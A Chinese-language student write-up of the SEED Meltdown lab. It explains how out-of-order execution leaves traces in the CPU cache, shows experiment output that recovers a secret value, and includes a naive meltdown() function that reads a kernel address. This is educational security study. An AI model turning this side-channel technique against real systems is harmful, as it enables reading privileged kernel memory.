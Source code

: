 ![Out-of-Order](_v_images/20191008171937207_10959.png)

Intel 和其他CPU的设计者在设计Out-of-Order时犯了很严重的错误。如果不应该执行乱序执行，则会消除对寄存器和内存的无序执行的影响，因此该执行不会导致任何可见的影响。 但是，他们忘记了一件事，即对CPU缓存的影响。

Q：第一个问题，对于读指令，当处理器在等待数据从缓存或者内存返回的时候，它到底是什么状态？是等在那不动呢，还是继续执行别的指令？
A：一般来说，如果是乱序执行的处理器，那么可以执行后面的指令，如果是顺序执行，那么会进入停顿状态，直到读取的数据返回。乱序执行是说，对于一串给定的指令，为了提高效率，处理器会找出非真正数据依赖的指令，让他们并行执行。但是，指令执行结果在写回到寄存器的时候，必须是顺序的。也就是说，哪怕是先被执行的指令，它的运算结果也是按照指令次序写回到最终的寄存器的。


编译执行`MeltdownExperiment.c`程序，执行效果为`array[7*4096 + 1024] is in cache.`。产生这个现象的原因也很明显，文档中也讲得十分清楚了。在执行`kernel_data = *(char*)kernel_data_addr;`这条语句时，CPU不会等待内存数据的访问（读），会继续将下一条指令加载进CPU并且执行，导致array[7*4096 + 1024]被加入到寄存器以及cache中。最终因为上一条指令出错，寄存器值被清空，但数据依然保存在了cache中。在Relaod过程中检测array[7*4096 + 1024]数据访问时间满足cache的访问时间。

```
[10/08/19]seed@VM:~/.../Meltdown_Attack$ ./MeltdownExperiment 
Memory access violation!
array[7*4096 + 1024] is in cache.
The Secret = 7.
```

# Task 7: The Basic Meltdown Attack
CPU可以无序执行的程度取决于并行执行访问检查的速度。这是一个典型的竞争条件情况。

## Task 7.1:  A Naive Approach
修改`meltdown`函数如下，编译执行没有显示cache命中。
```
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;
  array[kernel_data * 4096 + DELTA] += 1;
}

```
